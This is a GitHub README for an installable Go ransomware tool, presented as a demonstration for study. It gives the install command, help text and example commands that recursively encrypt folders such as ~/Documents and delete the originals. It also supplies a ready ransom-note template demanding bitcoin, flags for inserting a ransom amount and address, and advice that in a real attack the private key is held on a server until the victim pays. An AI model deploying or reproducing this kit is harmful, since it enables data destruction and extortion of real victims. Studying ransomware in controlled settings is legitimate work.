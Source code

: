 # ransomware-example
A simple demonstration tool to simulate a ransomware attack locally

## ⚠️ Disclaimer ⚠️
This software is made just for demonstration and study purposes. If you want to run it locally for tests, take care of what directories you decide to encrypt. The software is distributed in MIT license. Its use is free, however the author doesn't take responsibility for any illegal use of the code by 3rd parties.

## Setup
To setup the tool just run 

```bash
$ go install github.com/marmos91/ransomware@latest
```

## Why 
In order to demonstrate the way ransomware works quickly and in a protected environment, **it is very useful to be able to restrict its operation within a directory**. This way the process takes much less time (the entire operating system does not need to be encrypted). Writing this tool in Go, also **allows the tool to be developed even in a non-Windows environment** (by far the most supported operating system by ransomware available online)

## How to use it
This tool is used to simulate a ransomware attack. With it you can perform the following actions:

1. After setting up a key, recursively encrypt the contents of a specified path 
2. After asking for a key, recursively decrypt the contents of a specified path

## Help

```bash
NAME:
   ransomware - A simple demonstration tool to simulate a ransomware attack

USAGE:
   ransomware [global options] command [command options] [arguments...]

VERSION:
   v1.0.0

AUTHOR:
   Marco Moschettini <marco.moschettini@cubbit.io>

COMMANDS:
   create-keys, c  Generates a new random keypair and saves it to a file
   encrypt, e      Encrypts a directory
   decrypt, d      Decrypts a directory
   help, h         Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --verbose      Runs the tool in verbose mode (more logs) (default: false)
   --help, -h     show help (default: false)
   --version, -v  print the version (default: false)
```

## Create a keypair

First thing you need to do is to create a keypair. You can do it by running

```bash
$ ransomware create-keys --path ~/Desktop
```
If you don't specifiy a path it will create the keys in `pwd`.
This command will create two files:

- pub.pem
- priv.pem

In a real scenario you need to put the `private key` in a server and provide it only after the victim payed the ransom. The public key needs instead to be embedded in the ransomware to encrypt the folders

## Encrypt a directory
With this command you can recursively encrypt every file inside a specified directory. 

```bash
NAME:
   ransomware encrypt - Encrypts a directory

USAGE:
   ransomware encrypt [command options] [arguments...]

OPTIONS:
   --path value, -p value      Runs the tool on a directory
   --publicKey value           Loads the provided RSA public key in PEM format
   --extBlacklist value        the extension to blacklist (default: ".enc")
   --extWhitelist value        the extension to whitelist
   --skipHidden                skips hidden folders (default: false)
   --dryRun                    encrypts files without deleting originals (default: false)
   --encSuffix value           defines the suffix to add to encrypted files (default: ".enc")
   --addRansom                 if set to true add a ransom note to every encrypted folder (default: false)
   --ransomTemplatePath value  defines where to find the template to use for the ransom note
   --ransomFileName value      defines the name of the ransom file name (default: "IMPORTANT.txt")
   --bitcoinCount value        how many bitcoins to ask as ransom (default: 0)
   --bitcoinAddress value      the bitcoin address to use (default: "<bitcoin address>")
   --help, -h                  show help (default: false)
```

For example if you want to run the tool on the `~/Documents` folder run:
```bash
$ ransomware encrypt --publicKey ./pub.pem --path ~/Documents
```
This command provides the following options:

- `path`: the path to encrypt. This is required
- `publicKey`: the path of the publicKey PEM file created by the `create-keys` command
- `extBlacklist`: if provided, a comma-separated list of extension to skip. **This feature is useful, to exclude executable like `.exe` files**
- `extWhitelist`: if provided, a comma-separated list of extension to whitelist
- `skipHidden`: if set, skips hidden folders
- `dryRun`: just creates encrypted files without deleting originals
- `encSuffix`: defines a custom extension to set on encrypted files (default `.enc`)
- `addRansom`: if the tool should generate a new ransom.txt file for each encrypted folder
- `ransomTemplatePath`: the path of the template to use as ransom
- `ransomFileName`: the name to give to the ransom file
- `bitcoinCount`: how many bitcoin to ask as ransom
- `bitcoinAddress`: the bitcoin address to use inside the ransom file

### Examples
Just encrypt gif files on Desktop
```bash
$ ransomware encrypt --publicKey ./pub.pem --path ~/Desktop --extWhitelist .gif
```

Encrypt everything except `.csv` and `.pdf` files
```bash
$ ransomware encrypt --publicKey ./pub.pem --path ~/Desktop --extBlacklist .csv,.pdf
```

Encrypt everything and add a ransom file
```bash
$ ransomware encrypt --publicKey ./pub.pem --path ~/Desktop --addRansom --ransomTemplatePath ./ransom/IMPORTANT.txt
```

### Ransom file
This is an example of ransom file. The templated strings `{{.BitcoinAddress}}`, `{{.BitcoinCount}}` and `{{.PubliKey}}` will be replace by the script. Please check encrypt options to see options available

```txt
!!! IMPORTANT !!! 

All of your files are encrypted with RSA 4096 and AES 256 ciphers.
More information about RSA and AES can be found here:
- https://en.wikipedia.org/wiki/RSA_(cryptosystem)
- https://en.wikipedia.org/wiki/Advanced_Encryption_Standard

Decrypting of your files is only possible with the private key and decrypt program, which is not available to you.
To receive your private key please send {{.BitcoinCount}}BTC to {{.BitcoinAddress}} together with the public key used to encrypt your files

The public key to use in the form is

{{.PublicKey}}
```

## Decrypt a directory
With this command you can decrypt a folder back to its original form after a victim payed the ransom

```bash
NAME:
   ransomware decrypt - Decrypts a directory

USAGE:
   ransomware decrypt [command options] [arguments...]

OPTIONS:
   --path value, -c value  Runs the tool on a directory
   --privateKey value      Loads the provided RSA private key in PEM format
   --dryRun                decrypts files without deleting encrypted versions (default: false)
   --encSuffix value       defines the suffix to add to encrypted files (default: ".enc")
   --ransomFileName value  defines the name of the ransom file name (default: "IMPORTANT.txt")
   --help, -h              show help (default: false)
```
For example if you want to run the tool on the `~/Documents` folder run:

```bash
$ ransomware decrypt --privateKey ./priv.pem --path ~/Desktop/toEncrypt
```

This command provides the following options:

- `path`: the path to encrypt. This is required
- `privateKey`: the path of the privateKey PEM file created by the `create-keys` command
- `dryRun`: just creates decrypted files without deleting encrypted version
- `encSuffix`: defines a custom extension for encrypted files (default `.enc`)
- `ransomFileName`: defines the name of the ransom file. Needed to delete the files previously generated


## How it works

The tool implements a [**hybrid encryption strategy**](https://www.picussecurity.com/resource/the-most-common-ransomware-ttp-mitre-attck-t1486-data-encrypted-for-impact#:~:text=In%20the%20hybrid%20encryption%20approach,(public%20key)%20encryption%20algorithm.) making use of two different algorithms: 
- [AES256](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard)
- [RSA2048](https://en.wikipedia.org/wiki/RSA_(cryptosystem))

The reason for this choice is related to the different nature of the two encryption algorithms. **A hybrid approach takes advantage of the performance of AES to execute faster, while at the same time not providing the decryption key within the executable**. 

A new random AES key is then generated for the session each time the tool is executed. **This key is used to encrypt all files in the selected folder**. For later retrieval, this key is **encrypted with the public RSA key provided** to the tool and prepended to all encrypted files.

In this way, the tool, provided with the corresponding private key, will be able to **read the AES key at the beginning of each file, decrypt it, and finally use it to decrypt the file**.